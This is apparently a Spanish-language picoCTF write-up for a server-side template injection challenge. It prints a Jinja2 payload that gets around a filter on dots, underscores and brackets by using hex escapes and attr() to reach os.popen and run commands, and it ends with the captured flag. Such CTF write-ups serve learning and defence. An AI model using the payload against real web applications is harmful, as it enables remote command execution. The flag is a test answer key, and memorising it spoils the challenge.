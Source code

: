 ## Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:51790/)!

## Solución
Se aprecia el mismo sitio web del ejercicio SSTI1, se intenta usar el comando de la solución anterior pero es rechazado, se revisa de nuevo la documentación ofrecida por onsecurity y se encuentra lo siguiente por si se filtran puntos, guiones bajos y corchetes:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
Demostrando de nuevo el contenido del directorio actual y se hace cat al archivo flag para obtener la bandera

```
# picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
```

## Referencias
* https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/